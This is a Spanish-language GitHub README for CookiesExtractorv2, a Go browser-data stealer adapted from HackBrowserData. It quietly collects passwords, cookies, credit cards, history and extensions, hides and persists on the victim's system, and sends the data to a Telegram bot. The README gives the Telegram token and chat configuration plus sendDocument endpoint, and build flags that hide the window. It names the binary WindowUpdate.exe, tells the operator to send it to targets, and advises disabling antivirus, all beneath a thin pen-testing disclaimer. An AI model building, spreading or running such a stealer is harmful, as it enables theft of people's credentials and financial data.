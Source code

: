 <h1>CookiesExtractorv2</h1>
CookiesExtractorv2 es una herramienta desarrollada en Go diseñada para extraer datos sensibles de navegadores web (contraseñas, historial, cookies, marcadores, tarjetas de crédito, historial de descargas, localStorage y extensiones). A diferencia de la herramienta base, esta versión opera de forma discreta en segundo plano, recolecta los datos extraídos y los envía automáticamente a un bot de Telegram configurado. Soporta los navegadores más populares en Windows, macOS y Linux, e incluye mecanismos para su persistencia y ocultamiento en el sistema objetivo.


> Advertencia Importante:
Esta herramienta es una modificación del proyecto original HackBrowserData y ha sido configurada para operar de manera autónoma, recolectando datos de navegación y enviándolos a un destino remoto (Telegram). Su uso implica la extracción y transmisión de información sensible del sistema donde se ejecuta.


>Esta herramienta está destinada EXCLUSIVAMENTE para fines de investigación de seguridad y pruebas de penetración ÉTICAS en entornos controlados y con el CONSENTIMIENTO EXPLÍCITO Y DOCUMENTADO del propietario del sistema.

>Cualquier uso no autorizado de este software para acceder, recopilar o exfiltrar datos sin el permiso expreso del propietario del sistema es ILEGAL y NO ÉTICO. El autor y los contribuidores no asumen ninguna responsabilidad legal o moral por cualquier uso indebido o ilegal de esta herramienta.

Navegadores Compatibles

### Windows
| Browser            | Password | Cookie | Bookmark | History |
|:-------------------|:--------:|:------:|:--------:|:-------:|
| Google Chrome      |    ✅     |   ✅    |    ✅     |    ✅    |
| Google Chrome Beta |    ✅     |   ✅    |    ✅     |    ✅    |
| Chromium           |    ✅     |   ✅    |    ✅     |    ✅    |
| Microsoft Edge     |    ✅     |   ✅    |    ✅     |    ✅    |
| 360 Speed          |    ✅     |   ✅    |    ✅     |    ✅    |
| QQ                 |    ✅     |   ✅    |    ✅     |    ✅    |
| Brave              |    ✅     |   ✅    |    ✅     |    ✅    |
| Opera              |    ✅     |   ✅    |    ✅     |    ✅    |
| OperaGX            |    ✅     |   ✅    |    ✅     |    ✅    |
| Vivaldi            |    ✅     |   ✅    |    ✅     |    ✅    |
| Yandex             |    ✅     |   ✅    |    ✅     |    ✅    |
| CocCoc             |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox            |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Beta       |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Dev        |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox ESR        |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Nightly    |    ✅     |   ✅    |    ✅     |    ✅    |
| Internet Explorer  |    ❌     |   ❌    |    ❌     |    ❌    |


### MacOS

Based on Apple's security policy, some browsers **require a current user password** to decrypt.

| Browser            | Password | Cookie | Bookmark | History |
|:-------------------|:--------:|:------:|:--------:|:-------:|
| Google Chrome      |    ✅     |   ✅    |    ✅     |    ✅    |
| Google Chrome Beta |    ✅     |   ✅    |    ✅     |    ✅    |
| Chromium           |    ✅     |   ✅    |    ✅     |    ✅    |
| Microsoft Edge     |    ✅     |   ✅    |    ✅     |    ✅    |
| Brave              |    ✅     |   ✅    |    ✅     |    ✅    |
| Opera              |    ✅     |   ✅    |    ✅     |    ✅    |
| OperaGX            |    ✅     |   ✅    |    ✅     |    ✅    |
| Vivaldi            |    ✅     |   ✅    |    ✅     |    ✅    |
| CocCoc             |    ✅     |   ✅    |    ✅     |    ✅    |
| Yandex             |    ✅     |   ✅    |    ✅     |    ✅    |
| Arc                |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox            |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Beta       |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Dev        |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox ESR        |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Nightly    |    ✅     |   ✅    |    ✅     |    ✅    |
| Safari             |    ❌     |   ❌    |    ❌     |    ❌    |

### Linux

| Browser            | Password | Cookie | Bookmark | History |
|:-------------------|:--------:|:------:|:--------:|:-------:|
| Google Chrome      |    ✅     |   ✅    |    ✅     |    ✅    |
| Google Chrome Beta |    ✅     |   ✅    |    ✅     |    ✅    |
| Chromium           |    ✅     |   ✅    |    ✅     |    ✅    |
| Microsoft Edge Dev |    ✅     |   ✅    |    ✅     |    ✅    |
| Brave              |    ✅     |   ✅    |    ✅     |    ✅    |
| Opera              |    ✅     |   ✅    |    ✅     |    ✅    |
| Vivaldi            |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox            |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Beta       |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Dev        |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox ESR        |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Nightly    |    ✅     |   ✅    |    ✅     |    ✅    |


Instalación
La instalación de CookiesExtractorv2 es muy sencilla:
Descarga el proyecto o clona el repositorio

# Clona tu repositorio
git clone https://github.com/GrpDsG20/CookiesExtractorv2

Configura tu bot de Telegram:
Antes de compilar, necesitas editar el archivo main.go en la ruta cmd/hack-browser-data/main.go. Busca las líneas TelegramToken y ChatID y reemplaza los valores por tu propio token de bot de Telegram y el ID de tu chat.

const (
    TelegramToken   = "TU_TOKEN_DE_BOT_AQUI" // Reemplaza esto con tu token real
    ChatID          = "TU_CHAT_ID_AQUI"     // Reemplaza esto con tu ID de chat real
    TelegramFileAPI = "https://api.telegram.org/bot%s/sendDocument"
)

# Navega a la raíz de tu proyecto
cd CookiesExtractorv2

# Inicializa y limpia tu módulo (si aún no lo has hecho)
go mod tidy

# Navega hasta este apartado
cd cmd\hack-browser-data

# Compila el ejecutable (desde la raíz del módulo)
go build -ldflags="-s -w -H=windowsgui" -o WindowUpdate.exe

# Envia el .exe por cualquier medio descargalo y ejecutalo 

Nota: En algunas situaciones, esta herramienta de seguridad puede ser detectada como un virus por Windows Defender u otro software antivirus y no podrá ejecutarse. Es recomendable desactivar el antivirus temporalmente, como si instalaras cualquier programa "crackeado". El código es de código abierto, puedes modificarlo y compilarlo tú mismo. Ten en cuenta que esta versión modificada está diseñada para operar de forma sigilosa y enviar datos a un bot de Telegram, lo cual es la razón principal de tales detecciones.


Compilación cruzada (Cross compile)
Aquí tienes un ejemplo de cómo usar macOS para compilar para Windows y Linux. Asegúrate de estar en la raíz de tu módulo (CookiesExtractorv2) cuando ejecutes estos comandos.

Para Windows
GOOS=windows GOARCH=amd64 go build -ldflags="-s -w -H=windowsgui" -o WindowUpdate.exe ./cmd/hack-browser-data

Para Linux
GOOS=linux GOARCH=amd64 go build -ldflags="-s -w" -o WindowUpdate ./cmd/hack-browser-data

Ejecución
Importante: Esta versión de la herramienta está diseñada para ejecutarse de forma sigilosa en segundo plano. Los ejemplos de comandos que se muestran a continuación corresponden al comportamiento de la herramienta original para exportación local y para fines de depuración o prueba de sus capacidades de extracción, no a la operación normal de esta versión modificada.


